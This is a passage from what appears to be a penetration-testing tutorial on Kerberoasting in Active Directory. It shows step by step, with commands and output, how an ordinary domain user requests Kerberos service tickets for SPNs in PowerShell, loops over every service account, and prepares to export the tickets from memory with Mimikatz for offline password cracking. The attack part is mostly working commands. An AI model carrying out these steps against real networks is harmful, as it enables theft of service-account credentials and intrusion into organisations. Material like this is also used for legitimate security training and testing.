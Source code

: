 Looks like there are no cached Kerberos tickets for this session. This can also be checked by running the `klist` command:

```
PS C:\> klist

Current LogonId is 0:0x3fde2

Cached Tickets: (0)
PS C:\>
```

If you had tickets here, you can purge them from memory by running `Invoke-Mimikatz -Command '"kerberos::purge"'`.
Lets request a service ticket for the `svcSQLServ/pc1.foo.local:1433` SPN (The command syntax can be seen in the Kerberoast repository):

```
PS C:\> Add-Type -AssemblyName System.IdentityModel
PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "svcSQLServ/pc1.foo.local:1433"


Id                   : uuid-33208c1c-6f30-441f-af50-94ba72a2ed7b-1
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 1/9/2016 7:29:11 PM
ValidTo              : 1/10/2016 5:29:11 AM
ServicePrincipalName : svcSQLServ/pc1.foo.local:1433
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey



PS C:\>
```

If you wanted to get tickets for all of the possible SPN's, we could have run the below command that will loop over the results from `Find-PSServiceAccounts` and request a ticket for each:

```
PS C:\> Add-Type -AssemblyName System.IdentityModel
PS C:\> Find-PSServiceAccounts -DumpSPNs | ForEach-Object { New-Object System.Identity Model.Tokens.KerberosRequestorSecurityToken -ArgumentList $_ }

```

Now, if we recheck the tickets we have for this session, we can see that we have one for `svcSQLServ`:

{{< figure src="/images/kerberos_golden_ticket_spn.png" >}}

## dumping kerberos tickets from memory
Remember, all of the actions performed thus far have been as a normal AD user with no special privileges. With the tickets now in memory, we can dump them to a file using mimikatz again. The mimikatz command we will use for this is `kerberos::list /export`:
